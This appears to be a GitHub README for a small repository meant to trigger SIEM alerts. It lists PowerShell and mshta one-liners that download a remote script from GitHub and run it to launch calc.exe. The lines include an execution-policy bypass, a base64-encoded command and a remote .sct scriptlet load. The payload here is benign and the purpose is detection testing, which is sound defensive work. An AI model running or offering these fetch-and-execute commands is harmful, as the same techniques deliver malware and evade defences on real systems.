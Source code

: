 # runcalc
Just some basic scripts for testing SIEM alerts


# Invoke-Expression
This powershell script just launch calc.exe using methods to download and execute various malicious payloads.  Below are some of the ways to call this.

### Standard Execution
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/losttroll/runcalc/main/invokecalc.ps1');invoke-calc"

### Base 64 Encoded Execution
powershell -noprofile -noninteractive -executionpolicy bypass -encodedcommand cABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACAALQBlAHgAZQBjACAAQgB5AHAAYQBzAHMAIAAtAEMAIAAiAEkARQBYACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwAHMAOgAvAC8AcgBhAHcALgBnAGkAdABoAHUAYgB1AHMAZQByAGMAbwBuAHQAZQBuAHQALgBjAG8AbQAvAGwAbwBzAHQAdAByAG8AbABsAC8AYgBsAHUAZQB0AGUAcwB0AHMALwBtAGEAaQBuAC8AaQBuAHYAbwBrAGUAYwBhAGwAYwAuAHAAcwAxACcAKQA7AGkAbgB2AG8AawBlAC0AYwBhAGwAYwAiAA==

## MSHTA
The command will use MSHTA to download a payload that executes calc.exe

### Standard Execution
mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/losttroll/runcalc/main/calc.sct").Exec();close();

